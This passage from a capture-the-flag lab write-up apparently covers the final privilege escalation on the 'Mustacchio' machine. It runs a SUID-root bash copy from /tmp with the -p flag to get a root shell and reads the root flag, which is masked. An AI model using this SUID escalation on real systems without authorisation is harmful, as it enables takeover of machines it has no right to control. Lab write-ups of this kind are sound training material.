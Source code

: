 The bash copy in /tmp was created with the SUID bit set, owned by root, and is executable by any user. This enables us to run /tmp/bash as root, giving us a root shell

![bashcreated](../assets/img/posts/2024-11-02-post-thm-writeup-mustacchio/image-11.png)

```bash
barry@mustacchio:/tmp$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
3******************************5
```

With this final step, we successfully obtained the root flag. The privilege escalation was completed, granting us full control over the system
